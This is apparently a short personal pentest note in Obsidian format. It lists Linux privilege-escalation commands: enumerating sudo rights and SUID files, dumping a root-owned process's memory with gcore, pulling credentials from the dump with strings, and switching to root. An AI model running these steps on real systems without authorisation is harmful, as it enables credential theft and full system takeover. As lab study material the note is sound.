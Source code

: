 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
sudo -l
```

![[Pasted image 20221115144913.png]]

```bash - kali
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

![[Pasted image 20220407154438.png]]

```bash - kali
ps aux | grep root
```

![[Pasted image 20220407154514.png]]

```bash - kali
sudo -u root /usr/bin/gcore -a -o /home/$USER/output 25737
```

```bash - kali
strings /home/$USER/output.25737
```

```bash - kali
su root
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
